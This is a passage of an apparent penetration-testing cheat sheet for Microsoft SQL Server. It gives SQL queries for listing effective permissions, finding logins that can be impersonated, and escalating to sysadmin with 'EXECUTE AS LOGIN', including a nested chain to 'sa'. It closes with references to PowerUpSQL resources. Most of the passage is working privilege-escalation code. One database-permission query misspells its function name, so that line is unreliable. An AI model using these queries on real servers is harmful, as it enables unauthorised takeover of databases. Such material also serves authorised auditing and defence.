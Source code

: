 ### Effective Permissions from the Server

```sql
select * from fn_my_permissions(null, 'server');
```

### Effective Permissions from the Database

```sql
SELECT * FROM fn_dp1my_permissions(NULL, 'DATABASE');
```

### Find SQL Server Logins Which can be Impersonated for the Current Database

```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### Exploiting Nested Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```

## References

* [PowerUpSQL Cheat Sheet & SQL Server Queries - Leo Pitt](https://medium.com/@D00MFist/powerupsql-cheat-sheet-sql-server-queries-40e1c418edc3)
* [PowerUpSQL Cheat Sheet - Scott Sutherland](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
* [Attacking SQL Server CLR Assemblies - Scott Sutherland - July 13th, 2017](https://blog.netspi.com/attacking-sql-server-clr-assemblies/)